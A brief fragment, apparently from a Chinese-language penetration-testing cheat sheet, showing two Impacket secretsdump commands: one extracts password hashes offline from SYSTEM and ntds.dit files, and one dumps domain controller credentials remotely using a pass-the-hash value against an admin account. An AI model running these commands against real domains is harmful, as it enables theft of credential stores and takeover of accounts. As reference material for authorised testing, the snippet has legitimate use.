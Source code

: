 	Impacket中的secretsdump.py
	>impacket-secretsdump –system SYSTEM –ntds.dit LOCAL
	或
	>impacket-secretsdump –hashs xxx:xxx –just-dc xxx.com/admin\@192.168.1.1